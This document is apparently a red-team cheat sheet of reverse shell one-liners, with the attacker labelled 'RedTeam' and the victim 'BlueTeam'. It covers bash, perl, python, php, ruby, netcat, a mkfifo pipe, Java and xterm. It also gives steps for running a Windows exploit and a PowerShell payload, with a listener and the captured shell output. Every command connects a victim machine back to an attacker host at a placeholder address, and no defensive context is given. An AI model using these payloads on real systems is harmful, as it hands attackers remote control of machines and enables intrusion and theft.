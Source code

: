 Shells
------


#Run these on the BlueTeam(Victim) or execute them as commands in a web frameworks(Victim)
#Open up a shell on your RedTeam(Attacker) and wait for the (Victim) to Connect back to the (Attacker)



#Open a shell on the Attacker(RedTeam)
nc -plv 1234



bash -i >& /dev/tcp/x.x.x.x/8080 0>&1



perl -e 'use Socket;$i="x.x.x.x";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'



python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'



php -r '$sock=fsockopen("x.x.x.x",1234);exec("/bin/sh -i <&3 >&3 2>&3");'



ruby -rsocket -e'f=TCPSocket.open("x.x.x.x",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'



nc -e /bin/sh x.x.x.x 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 1234 >/tmp/f



r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/x.x.x.x/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()



xterm -display x.x.x.x:1
Xnest :1
xhost +targetip



#Host a filefile
python2.7 -m SimpleHTTPServer 80

#Run a reverse for Windows exploit(39161)
python2.7 exploit.py x.x.x.x 80

#Connect backshell
nc -lvp 60001
Connection from x.x.x.x:49191
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.




#Run Powershell exploit payload
#Run the Listener on the Redteam(Attacker)
#Run the Remote powershell exploit on the Redteam(Attacker)
$nc -lvp 60002
python send_powershell_payload.py x.x.x.x LHOST 60002

